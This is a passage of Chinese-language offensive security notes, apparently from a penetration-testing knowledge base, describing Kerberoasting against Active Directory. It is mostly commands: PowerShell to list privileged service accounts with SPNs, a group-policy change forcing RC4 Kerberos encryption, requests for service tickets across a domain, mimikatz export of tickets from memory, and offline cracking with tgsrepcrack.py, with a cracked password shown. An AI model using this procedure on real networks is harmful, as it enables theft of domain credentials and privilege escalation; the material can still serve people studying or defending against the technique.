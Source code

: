 攻击者最感兴趣的是具有高权限用户组的服务帐户如域管理员组的成员。要快速列出高权限用户组的服务帐户的方法是枚举“AdminCount” 属性等于“1”的所有帐户。攻击者只需要向 AD 请求具有 SPN 且 AdminCount = 1 的所有用户帐户。

使用 Active Directory powershell 模块（域控制器一般会安装）中的 Get-ADUser cmdlet：
```powershell
import-module ActiveDirectory
get-aduser -filter {AdminCount -eq 1 -and (servicePrincipalName -ne 0)} -prop * |select name,whencreated,pwdlastset,lastlogon
```

对于没有安装的系统，可以通过以下命令导入 Active Directory 模块:
```powershell
import-module .\Microsoft.ActiveDirectory.Management.dll
```

Microsoft.ActiveDirectory.Management.dll 在安装 powershell 模块 Active Directory 后会生成，直接在域控上环境就能扣出来

使用 gpedit.msc 将域控上的组策略管理编辑器打开,`计算机配置-->Windows设置-->安全设置-->安全选项-->"网络安全: 配置 Kerberos 允许的加密类型"`，配置 Kerberos 的加密类型为 RC4，并运行 gpupdate 更新策略

**导出**

- https://github.com/nidem/kerberoast

使用 Kerberoast 中的 GeUserSPNs 进行扫描：
```bash
setspn.exe -q */*

# 或
.\GetUserSPNs.vbs
```

根据微软提供的类 KerberosRequeststorSecurityToken 发起 Kerberos 请求申请票据, 请求指定的 ST 票据:
```bash
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/Srv-DB-ffffffff0x.ffffffff0x.com:1433"

# 或请求全部票据
setspn.exe -T ffffffff0x.com -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.Post Context[0].Trim() }
```

使用 klist 命令查看当前会话存储的 Kerberos 票据：
```bash
klist
```

使用 mimikatz 导出内存中的票据(mimikatz 无需提权)：
```bash
kerberos::list /export
```

**破解**

使用 https://github.com/nidem/kerberoast 工具破解，得到 sqlsrv 密码为 Admin12345：
```bash
python tgsrepcrack.py dict.txt 2-40a00000-jack@MSSQLSvc~Srv-DB-ffffffff0x.ffffffff0x.com~1433-ffffffff0x.com.kirbi
```
